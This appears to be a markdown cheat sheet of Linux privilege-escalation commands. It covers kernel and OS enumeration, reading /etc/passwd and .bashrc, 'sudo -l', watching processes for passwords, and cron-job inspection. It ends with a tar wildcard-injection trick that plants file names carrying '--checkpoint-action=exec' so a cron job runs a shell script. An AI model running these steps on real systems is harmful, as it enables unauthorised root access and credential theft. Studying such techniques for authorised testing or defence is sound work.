 ```bash
#get kernel version
cat /etc/issue
#gather release information and more enhanced info
cat /etc/os-release
#kernel version in detail
cat /proc/version

#kernel version and architecture
uname -a 
```

- *enumerate Linux and its components*

<br>

#### Interesting  User trails

---

```bash
#print env variable
env
#show enviorment variable
echo $PATH

#check bashrc config
cat .bashrc

#check who has a bash shell
cat /etc/passwd | grep -i '/bin/.*sh'

#check sudo capabilities of the current user
sudo -l
```

<br>

#### Service Footprinting

---

```bash
#watch ps aux for a specific key word
watch -n 1 "ps -aux | grep pass"
```

<br>

#### Cron Jobs

---

```bash
#list crontab
cat /etc/crontab

#more detailed view
ls -l /etc/cron*

#grep Cronjobs which were executed since the machine is online
grep "CRON" /var/log/syslog

#abuse tar 
backup.tar.gz
#this will execute tar --checkpoint-action switch, once the tar cronjob runs
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
shell.sh
```